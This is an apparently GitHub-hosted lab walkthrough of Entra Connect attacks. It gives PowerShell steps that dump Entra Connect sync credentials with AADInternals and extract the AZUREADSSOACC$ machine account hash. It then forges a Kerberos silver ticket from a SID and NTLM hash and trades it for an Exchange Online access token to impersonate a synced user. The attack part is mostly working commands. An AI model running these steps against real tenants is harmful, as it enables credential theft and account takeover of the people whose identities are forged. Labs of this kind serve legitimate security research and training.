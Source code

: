 ## lab 2 - Entra Connect Attacks
1. Dumping and Extracting Entra (Azure AD) Connect credentials:
    1. run powershell as admin on the server where Entra Connect is installed
    2. execute:
        ```powershell
        Import-Module AADInternals
        Get-AADIntSyncCredentials
        ```


2. reset password


## 3. Silver Ticket Attack ##
1. get Sync's SID:
    ```powershell
    Import-Module AzureAD
    Connect-AzureAD # use the dumped Entra Connect creds

    # find victim user to impersonate
    Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

    Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain mylab.local -Server dcVm
    ```
    


    Obtain Sync_xx user’s SID  (by running mimikatz / other credentials dump tool or alternatively extract the plain text credentials on the server that is running Entra Connect, or alternatively using DCSync)​

    Generate a Kerberos ticket for the synced user that we wish to impersonate, using its SID + NTLM hash of the AZUREADSSOACC$ machine account:​
    $kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-722990657-2348522304-2045722228-1120" -Hash "6540a1298884fb7d186afdc9e29f1bb7"​

    Obtain an access token to a specific resource using that Kerberos ticket:​
    $at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain xspm-research.net